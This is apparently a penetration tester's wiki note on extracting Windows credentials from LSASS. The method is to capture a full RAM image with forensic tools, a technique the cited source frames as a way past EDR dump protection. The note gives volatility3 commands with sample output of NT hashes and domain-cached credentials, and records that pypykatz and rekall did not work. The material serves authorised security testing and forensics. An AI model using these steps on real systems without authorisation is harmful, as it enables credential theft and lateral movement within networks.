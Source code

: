 ```yaml
---
title: LSASS Dump with forensic tools
---
```


[[notes/windows/lsass-dump]] with memory forensic tools.

Try one of the following tools ([source](https://web.archive.org/web/20220919221915/https://medium.com/@balqurneh/bypass-crowdstrike-falcon-edr-protection-against-process-dump-like-lsass-exe-3c163e1b8a3e)):

- [FTK Imager](https://accessdata.com/product-download/ftk-imager-version-4-7-1), tested
- [Belkasoft Ram Capturer](https://belkasoft.com/ram-capturer)
- [Mandiant Memoryze](https://www.fireeye.de/services/freeware/memoryze.html)
- [WinPmem](https://github.com/Velocidex/WinPmem/)
- Magnet RAM Capture
- `dumpit.exe` (?)

Extract NT hashes of local users and domain-cached credentials of domain users from the raw memory image.

~~~
❯ podman run -it --rm --network host -v .:/workdir --entrypoint sh docker.io/sk4la/volatility3
$ volatility3 -f /workdir/memdump.mem windows.pslist.PsList | grep lsass
1056 1012 lsass.exe 0xce883eec7080 11 - 0 False 2022-09-19 13:12:51.000000 N/A Disabled
$ volatility3 -f /workdir/memdump.mem -o /tmp windows.hashdump.Hashdump  # sam / local users
User  rid  lmhash  nthash
Administrator        500  aad3b435b51404eeaad3b435b51404ee  6ed8e2f07dc16753aaaaaaaaaaaaaaaa
Gast                 501  aad3b435b51404eeaad3b435b51404ee  31d6cfe0d16ae931aaaaaaaaaaaaaaaa
DefaultAccount       503  aad3b435b51404eeaad3b435b51404ee  31d6cfe0d16ae931aaaaaaaaaaaaaaaa
WDAGUtilityAccount   504  aad3b435b51404eeaad3b435b51404ee  b313be82f9144a58aaaaaaaaaaaaaaaa
nobody              1002  aad3b435b51404eeaad3b435b51404ee  bd639192b56530c5aaaaaaaaaaaaaaaa
$ volatility3 -f /workdir/memdump.mem -o /tmp windows.cachedump.Cachedump  # lsa / domain cached credentials
Username  Domain  Domain name  Hash
johndoe   CORP    CORP.COM     dd 9b d2 5d c9 58 87 63 aa aa aa aa aa aa aa aa
janedoe   CORP    CORP.COM     8f 76 2c cc f1 a9 82 7d aa aa aa aa aa aa aa aa
~~~

There seems to be no tool that can extract NT hashes of domain users from raw memory images.
`pypykatz` and `rekall` didn't work.

~~~
❯ podman run -it --rm --network host -v .:/workdir docker.io/remnux/rekall
$ pypykatz lsa rekall -o /tmp/creds.txt /workdir/memdump.mem
...
~~~

Untested tools:

- [Physmem2profit](https://github.com/fsecurelabs/physmem2profit), dump LSASS by analyzing physical memory remotely
